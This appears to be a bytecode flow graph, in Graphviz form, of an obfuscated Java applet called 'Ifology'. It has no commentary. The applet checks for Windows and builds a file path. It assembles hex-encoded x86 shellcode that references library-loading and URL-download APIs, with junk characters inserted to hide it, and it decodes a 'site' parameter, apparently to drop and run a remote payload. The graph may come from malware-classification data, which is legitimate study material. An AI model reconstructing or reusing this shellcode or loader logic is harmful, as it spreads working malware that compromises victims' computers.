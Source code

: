 digraph "" {
    "r0 := @this: Ifology"
    "push 47"
    "r0 := @this: Ifology"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "pop"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"pop";
    "push \"os.rrnarrrrme\""
    "pop"->"push \"os.rrnarrrrme\"";
    "push \"r\""
    "push \"os.rrnarrrrme\""->"push \"r\"";
    "push \"\""
    "push \"r\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"mmwimmmmn\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"mmwimmmmn\"";
    "push \"m\""
    "push \"mmwimmmmn\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <Ifology: java.lang.String repeat(char,int)>";
    "store.r r324"
    "staticinvoke <Ifology: java.lang.String repeat(char,int)>"->"store.r r324";
    "goto new java.lang.StringBuilder"
    "store.r r324"->"goto new java.lang.StringBuilder";
    "new java.lang.StringBuilder"
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"````fil````e:/``/\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"````fil````e:/``/\"";
    "push \"`\""
    "push \"````fil````e:/``/\""->"push \"`\"";
    "push \"`\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r324"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r324";
    "load.r r324"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZFFF%FFFZ%Z%Z%ZFF%Z%FFF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZFFF%FFFZ%Z%Z%ZFF%Z%FFF\"";
    "push \"F\""
    "push \"ZFFF%FFFZ%Z%Z%ZFF%Z%FFF\""->"push \"F\"";
    "push \"F\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r324";
    "store.r r324"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"5N05NN35N1NNN5N2565NNNN7NNNN5NNNNN5NN9CE8NN000NNN000NNNN0NNNN0NNNNNNN5NNNDNNN83ED0NNNDNNNN31CN0NN640NNNN3NNNN4030NNNN78NNN0CN8B40NN0C8B701NNNNCADNNN8BNNN4NNN0NN0NNNN8EBNNNN0NNN9NNN8NNNNBNN4NNNN03NNNN4N8NNNNNDNNNNN407C8NNNB4NNNN0N3C5NNN6\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"5N05NN35N1NNN5N2565NNNN7NNNN5NNNNN5NN9CE8NN000NNN000NNNN0NNNN0NNNNNNN5NNNDNNN83ED0NNNDNNNN31CN0NN640NNNN3NNNN4030NNNN78NNN0CN8B40NN0C8B701NNNNCADNNN8BNNN4NNN0NN0NNNN8EBNNNN0NNN9NNN8NNNNBNN4NNNN03NNNN4N8NNNNNDNNNNN407C8NNNB4NNNN0N3C5NNN6\"";
    "push \"N\""
    "push \"5N05NN35N1NNN5N2565NNNN7NNNN5NNNNN5NN9CE8NN000NNN000NNNN0NNNN0NNNNNNN5NNNDNNN83ED0NNNDNNNN31CN0NN640NNNN3NNNN4030NNNN78NNN0CN8B40NN0C8B701NNNNCADNNN8BNNN4NNN0NN0NNNN8EBNNNN0NNN9NNN8NNNNBNN4NNNN03NNNN4N8NNNNNDNNNNN407C8NNNB4NNNN0N3C5NNN6\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"57BE5E010ZZZ0ZZ0001EEBF4E01ZZ000001ZEZZZZFE8DZ6ZZZZ0Z100ZZZZ0ZZZZZ05ZFZZZ5EZZZZZ8ZZ9EZZA81ZZZZC2ZZZ5E0ZZZ10Z0ZZZZZ0ZZZ0ZZZZZ5ZZ2ZZZ68ZZZZ8ZZZ00ZZ00000ZZFFZZZ9Z54ZZZZZZZE01ZZZ0Z00ZZZ0ZZZ89EZZZZZZAZZZZZ81CZ25ZZE0Z\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"57BE5E010ZZZ0ZZ0001EEBF4E01ZZ000001ZEZZZZFE8DZ6ZZZZ0Z100ZZZZ0ZZZZZ05ZFZZZ5EZZZZZ8ZZ9EZZA81ZZZZC2ZZZ5E0ZZZ10Z0ZZZZZ0ZZZ0ZZZZZ5ZZ2ZZZ68ZZZZ8ZZZ00ZZ00000ZZFFZZZ9Z54ZZZZZZZE01ZZZ0Z00ZZZ0ZZZ89EZZZZZZAZZZZZ81CZ25ZZE0Z\"";
    "push \"Z\""
    "push \"57BE5E010ZZZ0ZZ0001EEBF4E01ZZ000001ZEZZZZFE8DZ6ZZZZ0Z100ZZZZ0ZZZZZ05ZFZZZ5EZZZZZ8ZZ9EZZA81ZZZZC2ZZZ5E0ZZZ10Z0ZZZZZ0ZZZ0ZZZZZ5ZZ2ZZZ68ZZZZ8ZZZ00ZZ00000ZZFFZZZ9Z54ZZZZZZZE01ZZZ0Z00ZZZ0ZZZ89EZZZZZZAZZZZZ81CZ25ZZE0Z\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1bbb00bbb003bbb1Fb601C28bAbbb9Cb3bbbbb56302bbbb00b0bbbbbbb0bbb8bbb0bbbbbFbbbB0bbbb0bbbb74bbb0bbbbb6881Cb3bb24bbb6bEbBEbbbbEC6b043bbbb2b0b0bbb8bbb9bbbEbbbbbA81C2b4502bbb0000bbb52bbFbbF9bb5b5b2bb01bb0bbbb0bb0bbbb0bbb89EbA81Cb2bb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1bbb00bbb003bbb1Fb601C28bAbbb9Cb3bbbbb56302bbbb00b0bbbbbbb0bbb8bbb0bbbbbFbbbB0bbbb0bbbb74bbb0bbbbb6881Cb3bb24bbb6bEbBEbbbbEC6b043bbbb2b0b0bbb8bbb9bbbEbbbbbA81C2b4502bbb0000bbb52bbFbbF9bb5b5b2bb01bb0bbbb0bb0bbbb0bbb89EbA81Cb2bb\"";
    "push \"b\""
    "push \"1bbb00bbb003bbb1Fb601C28bAbbb9Cb3bbbbb56302bbbb00b0bbbbbbb0bbb8bbb0bbbbbFbbbB0bbbb0bbbb74bbb0bbbbb6881Cb3bb24bbb6bEbBEbbbbEC6b043bbbb2b0b0bbb8bbb9bbbEbbbbbA81C2b4502bbb0000bbb52bbFbbF9bb5b5b2bb01bb0bbbb0bb0bbbb0bbb89EbA81Cb2bb\""->"push \"b\"";
    "push \"b\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5TTTTTT0TTT02TTTT000T0TT525TT0FF95TTTT56TT0100TTTTTTTT006A0T0TTTT6A00TTT8TTT9ETTTTATTTT8TT1C2TTTT5TTTTETTTT0100TT005TT28TTT9TTTTEA8TTTT1CTTTTTTT27T802TTT0000TT526AT00FFTTD0T6TTTATT0TT5TTTT89TTTETA8TTTT1TC2TTTTT5E0TT1TTT00TTTT0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5TTTTTT0TTT02TTTT000T0TT525TT0FF95TTTT56TT0100TTTTTTTT006A0T0TTTT6A00TTT8TTT9ETTTTATTTT8TT1C2TTTT5TTTTETTTT0100TT005TT28TTT9TTTTEA8TTTT1CTTTTTTT27T802TTT0000TT526AT00FFTTD0T6TTTATT0TT5TTTT89TTTETA8TTTT1TC2TTTTT5E0TT1TTT00TTTT0\"";
    "push \"T\""
    "push \"5TTTTTT0TTT02TTTT000T0TT525TT0FF95TTTT56TT0100TTTTTTTT006A0T0TTTT6A00TTT8TTT9ETTTTATTTT8TT1C2TTTT5TTTTETTTT0100TT005TT28TTT9TTTTEA8TTTT1CTTTTTTT27T802TTT0000TT526AT00FFTTD0T6TTTATT0TT5TTTT89TTTETA8TTTT1TC2TTTTT5E0TT1TTT00TTTT0\""->"push \"T\"";
    "push \"T\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"052FHHF9HH55HHHA0HH100HH0HHH08HH9EHHAHH8H1C25E0100HHHHH0HHH05H2H6H880HHHH00000HH0FHHHHHFHH95HHHH4HHHEHHHH010HH00HHH0H8HHHH9EHHA81HCH2HH5E0HHH1HH00003HH1HHHF60H1C2HHHH8A9C3HHH56HHEHHHH0200HHHHH00HH80\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"052FHHF9HH55HHHA0HH100HH0HHH08HH9EHHAHH8H1C25E0100HHHHH0HHH05H2H6H880HHHH00000HH0FHHHHHFHH95HHHH4HHHEHHHH010HH00HHH0H8HHHH9EHHA81HCH2HH5E0HHH1HH00003HH1HHHF60H1C2HHHH8A9C3HHH56HHEHHHH0200HHHHH00HH80\"";
    "push \"H\""
    "push \"052FHHF9HH55HHHA0HH100HH0HHH08HH9EHHAHH8H1C25E0100HHHHH0HHH05H2H6H880HHHH00000HH0FHHHHHFHH95HHHH4HHHEHHHH010HH00HHH0H8HHHH9EHHA81HCH2HH5E0HHH1HH00003HH1HHHF60H1C2HHHH8A9C3HHH56HHEHHHH0200HHHHH00HH80\""->"push \"H\"";
    "push \"H\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yFyyyB00y7yyyyyyyy4yy0yyy6881C3yyyy246EBEyEC6yy0yy4320yy0y89EAyy81yyyC24yyy5yyy02yy000yy052FF955yyy20yyy10yyy0yyyy0089yEA81yyC2500200yyyy00525yyy0FF9y5yy5601yyy00006Ayy006\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yFyyyB00y7yyyyyyyy4yy0yyy6881C3yyyy246EBEyEC6yy0yy4320yy0y89EAyy81yyyC24yyy5yyy02yy000yy052FF955yyy20yyy10yyy0yyyy0089yEA81yyC2500200yyyy00525yyy0FF9y5yy5601yyy00006Ayy006\"";
    "push \"y\""
    "push \"yFyyyB00y7yyyyyyyy4yy0yyy6881C3yyyy246EBEyEC6yy0yy4320yy0y89EAyy81yyyC24yyy5yyy02yy000yy052FF955yyy20yyy10yyy0yyyy0089yEA81yyC2500200yyyy00525yyy0FF9y5yy5601yyy00006Ayy006\""->"push \"y\"";
    "push \"y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0O089EOA81COOO25E01OOO0000OO5O289EOOOOAOOOO8O1C2AOO60OOOO2OO00OOOO00O526OOOOA0OOO0OOOOOFOOFOOOD0OOO6OOOOA058OOO9EOOOAOOOO8O1C2O5EOOOO0OO1O00005OOOO2OOOOFFOO955OOOA010O00OOOO09ODOOO5OOOOD5F5OOOEOOOO5A595OOOOB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0O089EOA81COOO25E01OOO0000OO5O289EOOOOAOOOO8O1C2AOO60OOOO2OO00OOOO00O526OOOOA0OOO0OOOOOFOOFOOOD0OOO6OOOOA058OOO9EOOOAOOOO8O1C2O5EOOOO0OO1O00005OOOO2OOOOFFOO955OOOA010O00OOOO09ODOOO5OOOOD5F5OOOEOOOO5A595OOOOB\"";
    "push \"O\""
    "push \"A0O089EOA81COOO25E01OOO0000OO5O289EOOOOAOOOO8O1C2AOO60OOOO2OO00OOOO00O526OOOOA0OOO0OOOOOFOOFOOOD0OOO6OOOOA058OOO9EOOOAOOOO8O1C2O5EOOOO0OO1O00005OOOO2OOOOFFOO955OOOA010O00OOOO09ODOOO5OOOOD5F5OOOEOOOO5A595OOOOB\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"58C3ZZ000ZZ0ZZZZZ000ZZZ00ZZZZ0000ZZZ000ZZZZ0ZZ00ZZZZ00ZZZZ00Z0000000ZZ00Z4ZZ7ZZZ65ZZZ74ZZ5ZZZ4ZZ65ZZZZ6D7ZZ0ZZZ506174684ZZZZ1004ZZZZCZZZ6ZZFZZZZ61644C6ZZZ9ZZZZ627ZZ261Z7ZZZZ2794ZZ1ZZZ004765745\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"58C3ZZ000ZZ0ZZZZZ000ZZZ00ZZZZ0000ZZZ000ZZZZ0ZZ00ZZZZ00ZZZZ00Z0000000ZZ00Z4ZZ7ZZZ65ZZZ74ZZ5ZZZ4ZZ65ZZZZ6D7ZZ0ZZZ506174684ZZZZ1004ZZZZCZZZ6ZZFZZZZ61644C6ZZZ9ZZZZ627ZZ261Z7ZZZZ2794ZZ1ZZZ004765745\"";
    "push \"58C3ZZ000ZZ0ZZZZZ000ZZZ00ZZZZ0000ZZZ000ZZZZ0ZZ00ZZZZ00ZZZZ00Z0000000ZZ00Z4ZZ7ZZZ65ZZZ74ZZ5ZZZ4ZZ65ZZZZ6D7ZZ0ZZZ506174684ZZZZ1004ZZZZCZZZ6ZZFZZZZ61644C6ZZZ9ZZZZ627ZZ261Z7ZZZZ2794ZZ1ZZZ004765745\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z0726ZF6ZZZZZZ3ZZZZ41646ZZZZ4Z7ZZZ2ZZ6ZZZ5Z7Z3ZZ7Z3Z0ZZZZZZ0ZZZZ57ZZZ6ZZZZ96ZZE4578Z6ZZZZ5ZZZ630ZZ0BBZZ89FZZZZ289FZ730ZZZZC0AEZZZZZ75ZZFZZZD29FZZZZZZ7ZZZZ89FZZ9ZZZZZZ3ZZ1CZZZ0ZZZZZZBEZZ3ZCZ0ZZZ000ZZZ0ZZZZ003B51B0200ZZZ0066\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z0726ZF6ZZZZZZ3ZZZZ41646ZZZZ4Z7ZZZ2ZZ6ZZZ5Z7Z3ZZ7Z3Z0ZZZZZZ0ZZZZ57ZZZ6ZZZZ96ZZE4578Z6ZZZZ5ZZZ630ZZ0BBZZ89FZZZZ289FZ730ZZZZC0AEZZZZZ75ZZFZZZD29FZZZZZZ7ZZZZ89FZZ9ZZZZZZ3ZZ1CZZZ0ZZZZZZBEZZ3ZCZ0ZZZ000ZZZ0ZZZZ003B51B0200ZZZ0066\"";
    "push \"Z0726ZF6ZZZZZZ3ZZZZ41646ZZZZ4Z7ZZZ2ZZ6ZZZ5Z7Z3ZZ7Z3Z0ZZZZZZ0ZZZZ57ZZZ6ZZZZ96ZZE4578Z6ZZZZ5ZZZ630ZZ0BBZZ89FZZZZ289FZ730ZZZZC0AEZZZZZ75ZZFZZZD29FZZZZZZ7ZZZZ89FZZ9ZZZZZZ3ZZ1CZZZ0ZZZZZZBEZZ3ZCZ0ZZZ000ZZZ0ZZZZ003B51B0200ZZZ0066\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AVVVVD03VVVV8V5V1VVVVBVVV020VVVV000VV8VB7VV07V883C61CVVV0V3VVVVB5V1BVVVV02VVVV0V0VVVV0V0VVV8DVBDVV1FVVVV020VVVVVVVV0VVV00AD0VVVV3VV851VBVV0VV20000VVVAVVVBVVVVADVVVVVVVV038VV5VVVVVVV1B0200VV0VV0VVVV5VV0AVVVBAVVVD038VVVVVV51VVB0VV2VVVV0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AVVVVD03VVVV8V5V1VVVVBVVV020VVVV000VV8VB7VV07V883C61CVVV0V3VVVVB5V1BVVVV02VVVV0V0VVVV0V0VVV8DVBDVV1FVVVV020VVVVVVVV0VVV00AD0VVVV3VV851VBVV0VV20000VVVAVVVBVVVVADVVVVVVVV038VV5VVVVVVV1B0200VV0VV0VVVV5VV0AVVVBAVVVD038VVVVVV51VVB0VV2VVVV0\"";
    "push \"V\""
    "push \"AVVVVD03VVVV8V5V1VVVVBVVV020VVVV000VV8VB7VV07V883C61CVVV0V3VVVVB5V1BVVVV02VVVV0V0VVVV0V0VVV8DVBDVV1FVVVV020VVVVVVVV0VVV00AD0VVVV3VV851VBVV0VV20000VVVAVVVBVVVVADVVVVVVVV038VV5VVVVVVV1B0200VV0VV0VVVV5VV0AVVVBAVVVD038VVVVVV51VVB0VV2VVVV0\""->"push \"V\"";
    "push \"V\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0;;;00;;;;A;B5E3;;;1;;DBAD5603;;;8;51B;;;0200;;;00;;;8;;;9;;C6;;8;;;9D;;;751FCF;3A;;;;659;;740;;;4;;;5;;;E4;;;;;;3E;;;BE9;5E93;;D1E;;;0;;;;0;385;;2;;702;;;0000;;;31;;;F;;;;6;;96;;;66;;;;A;;;;DC;;;1E00;;2;;0;3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0;;;00;;;;A;B5E3;;;1;;DBAD5603;;;8;51B;;;0200;;;00;;;8;;;9;;C6;;8;;;9D;;;751FCF;3A;;;;659;;740;;;4;;;5;;;E4;;;;;;3E;;;BE9;5E93;;D1E;;;0;;;;0;385;;2;;702;;;0000;;;31;;;F;;;;6;;96;;;66;;;;A;;;;DC;;;1E00;;2;;0;3\"";
    "push \";\""
    "push \"0;;;00;;;;A;B5E3;;;1;;DBAD5603;;;8;51B;;;0200;;;00;;;8;;;9;;C6;;8;;;9D;;;751FCF;3A;;;;659;;740;;;4;;;5;;;E4;;;;;;3E;;;BE9;5E93;;D1E;;;0;;;;0;385;;2;;702;;;0000;;;31;;;F;;;;6;;96;;;66;;;;A;;;;DC;;;1E00;;2;;0;3\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"851FXXX02XXXXX0XX0XX0089XXC6XAXXD0XX38XXX51XXXXB020X0XXX0X0XXXC3XEBXX1XX00XXXX00XX0XXX0XXXXX00000000XXXXX00XX0XXXX00XX000XXXX0000000X0000XX8XXX985XX1B0XXXX20X0XXXX00XXXXX5XXX6XXXX57EX85X8XFXXFFXXXFXFXXFXXX5XXXFXXX5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"851FXXX02XXXXX0XX0XX0089XXC6XAXXD0XX38XXX51XXXXB020X0XXX0X0XXXC3XEBXX1XX00XXXX00XX0XXX0XXXXX00000000XXXXX00XX0XXXX00XX000XXXX0000000X0000XX8XXX985XX1B0XXXX20X0XXXX00XXXXX5XXX6XXXX57EX85X8XFXXFFXXXFXFXXFXXX5XXXFXXX5\"";
    "push \"X\""
    "push \"851FXXX02XXXXX0XX0XX0089XXC6XAXXD0XX38XXX51XXXXB020X0XXX0X0XXXC3XEBXX1XX00XXXX00XX0XXX0XXXXX00000000XXXXX00XX0XXXX00XX000XXXX0000000X0000XX8XXX985XX1B0XXXX20X0XXXX00XXXXX5XXX6XXXX57EX85X8XFXXFFXXXFXFXXFXXX5XXXFXXX5\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EeeeAeeeeB0eeee1CeeEeeee80eee3eEBeB7ee4eee02EeeeeBEeeeeeeDCeee3555eee2ee4C4eeeDeeee4eeFeeeeeee4eeeeE2Eeeee4ee44eC4Ce005e5eeee52eee4eeC4e46F776E6C6eeF6ee16eee4e5ee4eeeee6F46eeeee696eeeeeC6541e0eeee0eeee7064667eee5eee7e0eee642E6eee5eee7eeee86eee5ee0eee06eeee3e72617eeeeee36eee8e2eEeeee706eeee8eeee7e0ee0e0e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EeeeAeeeeB0eeee1CeeEeeee80eee3eEBeB7ee4eee02EeeeeBEeeeeeeDCeee3555eee2ee4C4eeeDeeee4eeFeeeeeee4eeeeE2Eeeee4ee44eC4Ce005e5eeee52eee4eeC4e46F776E6C6eeF6ee16eee4e5ee4eeeee6F46eeeee696eeeeeC6541e0eeee0eeee7064667eee5eee7e0eee642E6eee5eee7eeee86eee5ee0eee06eeee3e72617eeeeee36eee8e2eEeeee706eeee8eeee7e0ee0e0e\"";
    "push \"e\""
    "push \"EeeeAeeeeB0eeee1CeeEeeee80eee3eEBeB7ee4eee02EeeeeBEeeeeeeDCeee3555eee2ee4C4eeeDeeee4eeFeeeeeee4eeeeE2Eeeee4ee44eC4Ce005e5eeee52eee4eeC4e46F776E6C6eeF6ee16eee4e5ee4eeeee6F46eeeee696eeeeeC6541e0eeee0eeee7064667eee5eee7e0eee642E6eee5eee7eeee86eee5ee0eee06eeee3e72617eeeeee36eee8e2eEeeee706eeee8eeee7e0ee0e0e\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r63"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r63";
    "load.r r0"
    "store.r r63"->"load.r r0";
    "push \"sfifffte\""
    "load.r r0"->"push \"sfifffte\"";
    "push \"f\""
    "push \"sfifffte\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>";
    "push \"00=====90\""
    "virtualinvoke <Ifology: java.lang.String getParameter(java.lang.String)>"->"push \"00=====90\"";
    "push \"=\""
    "push \"00=====90\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r79"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r79";
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"
    "store.r r79"->"staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>";
    "store.r r416"
    "staticinvoke <Brealizer: java.lang.String decodeString(java.lang.String)>"->"store.r r416";
    "store.r r416"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r63"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r63";
    "load.r r63"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
